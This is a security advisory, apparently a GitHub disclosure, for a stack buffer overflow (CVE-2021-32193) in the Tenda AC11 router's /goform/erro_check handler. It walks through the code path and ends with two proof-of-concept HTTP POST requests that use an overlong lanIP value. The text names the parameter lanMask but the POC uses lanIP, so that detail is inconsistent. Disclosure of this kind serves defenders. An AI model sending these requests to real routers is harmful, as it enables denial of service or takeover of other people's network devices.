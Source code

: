 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v4` into a stack buffer pointed by `v30`. `v4` is directly retrived from the nvram variable `lan_ipaddr` without any security check.

![1](1.PNG)

the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.

![2](2.PNG)

If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.

![3](3.PNG)


In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.


![4](4.PNG)


So by first setting the `lan_ipaddr` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@Lnkvct](https://github.com/Lnkvct) , and [@1chig0](https://github.com/1chig0) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32193